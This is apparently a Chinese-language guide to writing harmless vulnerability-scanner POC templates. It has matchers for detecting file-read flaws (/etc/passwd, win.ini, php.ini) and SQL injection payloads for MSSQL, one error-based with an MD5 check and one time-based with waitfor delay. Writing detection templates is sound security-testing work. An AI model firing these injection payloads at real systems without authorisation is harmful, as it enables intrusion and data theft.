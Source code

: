 写POC应秉承无毒无害的本质，下面总结一些常用写法，其实也可以参考[Xray POC编写模板](https://www.yuque.com/jarciscy/zkonow/kxc58s?)，只是写法有所不同。

## 文件读取

文件读取应考虑windows和linux两种情况

```
/etc/passwd文件：
matchers:
  - type: dsl
    dsl:
      - regex('root:.*?:[0-9]*:[0-9]*:',body) && status_code == 200


win.ini文件：
matchers:
      - type: dsl
        dsl:
          - status_code == 200 && contains(body,"for 16-bit app support")

/apache/php.ini文件：
matchers:
  - type: dsl
    dsl:
      - status_code == 200 && contains_all(body,"[PHP]","php.ini")
```

## SQL注入

### 报错注入

可以通过计算md5进行匹配

```
mssql payload:
'%20and%201%3D(select%20substring(sys.fn_sqlvarbasetostr(HashBytes('MD5'%2C'999999999'))%2C3%2C32))%20--

matchers:
  - type: dsl
    dsl:
      - contains(body,"c8c605999f3d8352d7bb792cf3fdb25b")
```

### 延时注入

延时注入之前设置sleep为5会有很多漏报，设为4后正常

```
payload：');+waitfor+delay+'0:0:4'--

matchers:
  - type: dsl
    dsl:
      - duration>=4 && status_code == 200
```
